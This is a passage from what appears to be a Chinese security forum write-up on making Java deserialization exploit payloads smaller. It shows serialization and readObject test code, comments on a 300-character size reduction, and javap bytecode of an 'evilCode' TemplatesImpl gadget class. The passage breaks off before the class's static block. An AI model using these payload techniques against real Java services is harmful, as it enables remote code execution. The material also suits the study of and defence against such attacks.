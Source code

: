 ```java
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())).length());

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
}

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-51451e4f694bb90eb5cf59bba3a7d1d027ec5708.png)

效果显著，直接少了三百字符，但是看完后面的一部分文章之后又有点懵了，在 4ra1n 后面的介绍中有说到，我们在使用了 javassist 之后，是默认没有 LineNumberTable 的，所以会小很多，大那是这里把使用了 javassist 的部分删除反而会减小呢？

暂时存疑，猜测和写入这个行为有关。

#### 结合 ASM 进行字节码层面优化

`EvilBytesCode` 恶意类的字节码是可以缩减的

```java
┌──(sp4c1ous㉿PC-20210224XFDL)-[/mnt/c/Program Files/Java/mvn/untitled4/out/production/untitled4]
└─$ javap -c -l evilCode.class
Compiled from "evilCode.java"
public class evilCode {
  public evilCode();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return
    LineNumberTable:
      line 6: 0
    LocalVariableTable:
      Start  Length  Slot  Name   Signature
          0       5     0  this   LevilCode;

  public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM, com.sun.org.apache.xml.internal.serializer.SerializationHandler[]);
    Code:
       0: return
    LineNumberTable:
      line 15: 0
    LocalVariableTable:
      Start  Length  Slot  Name   Signature
          0       1     0  this   LevilCode;
          0       1     1 document   Lcom/sun/org/apache/xalan/internal/xsltc/DOM;
          0       1     2 handlers   [Lcom/sun/org/apache/xml/internal/serializer/SerializationHandler;

  public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler);
    Code:
       0: return
    LineNumberTable:
      line 18: 0
    LocalVariableTable:
      Start  Length  Slot  Name   Signature
          0       1     0  this   LevilCode;
          0       1     1 document   Lcom/sun/org/apache/xalan/internal/xsltc/DOM;
          0       1     2 iterator   Lcom/sun/org/apache/xml/internal/dtm/DTMAxisIterator;
          0       1     3 handler   Lcom/sun/org/apache/xml/internal/serializer/SerializationHandler;

  static {};
```